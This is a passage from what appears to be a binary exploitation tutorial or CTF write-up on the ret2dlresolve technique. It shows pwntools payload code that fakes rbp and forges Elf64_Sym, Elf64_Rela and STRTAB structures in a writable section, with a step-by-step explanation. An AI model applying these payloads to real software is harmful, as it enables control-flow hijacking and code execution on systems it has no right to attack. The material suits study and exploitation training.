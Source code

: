 ```
rw_section = 0x403e00
mov_rsi_rbp_read = 0x401027

payload = p64(rw_section - 0x10)    # Fake rbp
payload += p64(mov_rsi_rbp_read)    # rip
payload += p64(0)*2                   # Just for padding so that we don't need to sleep()
p.send(payload)
```

Because we want the Elf64_Sym structure is placed at the correct address so we subtract with 0x10 so that in the next input, we will write the first 0x10 of fake rbp and rip, then the next 0x10 is the Elf64_Sym in the correct address. And when it read for the second time, which means it's reading to the address of rw_section - 0x10. So we will write the ELf64_Sym struct to here with following code:

```
# Write Elf64_Sym structure
payload = p64(Elf64_Rela_addr - 0x10)    # Fake rbp, write and jump to Elf64_Rela address
payload += p64(mov_rsi_rbp_read)
payload += Elf64_Sym_struct
p.send(payload)
```

And with the next input, it will read to the address of `Elf64_Rela_addr - 0x10` so we will write the Elf64_Rela structure with the following code:

```
# Write Elf64_Rela structure
payload = p64(STRTAB_addr - 0x10)        # Fake rbp, write and jump to STRTAB address
payload += p64(mov_rsi_rbp_read)
payload += Elf64_Rela_struct
p.send(payload)
```

And with the next read(), it will write to the STRTAB address so we have the following code:

```
# Write STRTAB structure
payload = p64(0)                         # Check first, change later
payload += p64(mov_rsi_rbp_read)
payload += STRTAB_struct
p.send(payload)
```

We will get the reloc_arg to check if all the structures are set properly or not:

```
print(reloc_arg)
```

and run with GDB attached for debuging:
